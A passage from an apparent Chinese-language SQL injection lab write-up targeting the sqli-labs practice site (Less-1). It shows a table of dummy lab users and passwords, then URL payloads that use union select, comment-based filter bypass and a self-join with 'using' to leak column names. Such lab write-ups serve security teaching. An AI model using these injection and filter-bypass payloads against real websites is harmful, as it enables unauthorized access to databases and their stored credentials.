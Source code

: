 ```sql
|  7 | batman   | mob!le     |
|  8 | admin    | admin      |
|  9 | admin1   | admin1     |
| 10 | admin2   | admin2     |
| 11 | admin3   | admin3     |
| 12 | dhakkan  | dumbo      |
| 14 | admin4   | admin4     |
+----+----------+------------+
13 rows in set (0.00 sec)
```

#### 注入流程

##### 爆字段

这里发现`union`和`from`后面都不能加东西，所以尝试加入注释符号绕过，成功得到第一个字段名

```
http://192.168.231.131/sqli-labs-master/Less-1/?id=-1' union /*/!--**/ select * from (select * from /*/!--**/ users a join users b)c --+
```

<img src="%E6%A9%99%E5%AD%90%E7%A7%91%E6%8A%80.assets/image-20230608195202683.png" alt="image-20230608195202683" style="zoom:50%;" />

使用 using 来排除字段，得到第二个字段名

```
http://192.168.231.131/sqli-labs-master/Less-1/?id=-1' union /*/!--**/ select * from (select * from /*/!--**/ users a join users b using(id))c --+
```

![image-20230608195241484](%E6%A9%99%E5%AD%90%E7%A7%91%E6%8A%80.assets/image-20230608195241484.png)
